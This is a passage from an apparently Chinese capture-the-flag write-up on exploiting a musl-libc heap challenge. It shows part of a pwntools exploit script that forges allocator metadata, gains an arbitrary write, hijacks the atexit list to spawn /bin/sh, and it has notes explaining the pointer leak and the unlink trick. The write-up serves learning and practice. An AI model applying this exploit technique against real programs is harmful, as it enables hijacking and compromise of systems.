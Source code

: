 ```
addr = libc.search('/bin/sh\x00').next()    #a[31]
Create([0x5]*8+[addr&amp;0xFFFFFFFF, (addr&gt;&gt;32)])        #5
Create([0x6]*10)        #6
Create([0x7]*10)        #7
Create([0x8]*10)        #8
Create([0x9]*10)        #9

#forge group
addr = 0x00000deadbeef010
exp = [addr&amp;0xFFFFFFFF, (addr&gt;&gt;32)]

#forge idx, offset
idx = 0x0
offset = 0x2
exp+= [0]*(10-2)
exp+= [(offset&lt;&lt;16)+(idx&lt;&lt;8)]
Modify(13, exp)

#trigger dequeue
Delete(14)

#GDB()

#atexit
Bye()


Exit()

sh.interactive()

'''
NumBufArr            telescope (0x0000555555554000+0x204360) 20
Create():calloc()    break *(0x0000555555554000+0x191b)
RecordPtr            telescope 0x0000555555554000+0x204348
'''
```
- 在设置Record时, 读入name并没有设置00截断, 并且是通过Realloc得到的内存, 并没有初始化, 因此可以先在chunk中写满数据, 防止被截断, 然后设置Record时申请到这个chunk, 就可以读到后面的指针
- 由于musl的静态内存特性, 当申请某些size时, Grade就是libc指针, 因此可以直接得到libc地址, 测试发现name长度为0x10时, 后面的指针就是libc指针- 下面考虑怎么复用到这个0x30的chunk
- 假设有metaA, 现在从里面切割出去了0x30的chunk, 写入数据后释放
- 首先free会发现, mask | self == all, 也就是说这个chunk的释放, 整个meta的chunk就都被回收了, 因此会调用nontrivial_free()- 因此一切又回到了一开始的状态, 那么当下次再次分配时, 就又会申请到这个chunk
### <a class="reference-link" name="%E6%B3%84%E9%9C%B2secret"></a>泄露secret
- 两次金手指刚好可以写入secret, 后续每局两次的银手指刚好可以用于调过前面的secret
### <a class="reference-link" name="%E4%BC%AA%E9%80%A0meta"></a>伪造meta
<li>prev/ next的顺序也有讲究, 因为是双向的
<ul>
<li>如果Prev=head-0x8, Next = chunk_15,
<ul>
- Prev-&gt;Next = Next =&gt; *head =chunk_15
- Next-&gt;Prev = Prev =&gt; *chunk_15=head, 这会覆盖struct fl的next字段, 导致无法伪造atexit()链表- 有了指针任意写之后, 我选择的是打atexit链表
## EXP
